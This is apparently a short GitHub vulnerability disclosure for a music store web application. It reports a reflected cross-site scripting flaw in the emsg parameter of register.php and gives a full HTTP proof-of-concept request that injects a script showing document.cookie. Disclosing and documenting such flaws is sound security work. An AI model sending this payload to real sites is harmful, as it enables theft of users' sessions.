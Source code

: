 # Vulnerability music store website

![](https://raw.githubusercontent.com/Th4r0s/my_CVE/main/web/vuln1/docs/vuln_website.png)
![](https://raw.githubusercontent.com/Th4r0s/my_CVE/main/web/vuln1/docs/xss-triggered.png)

## description

The emsg GET parameter used for prompt error message in case of missing field in register form is vulnerable to reflected XSS.
Is possible to inject javascript code and prompt document cookie.

## vulnerability 

```
GET /mw/register.php?emsg=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/2
Host: vulnhost.com
Cookie: PHPSESSID=tttbitb72h0efdddda4ft9q8e2f
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```
## Description:

JavaScript can be injected into the application (a vulnerable app - register.php, no sanitizing emsg GET parameter).


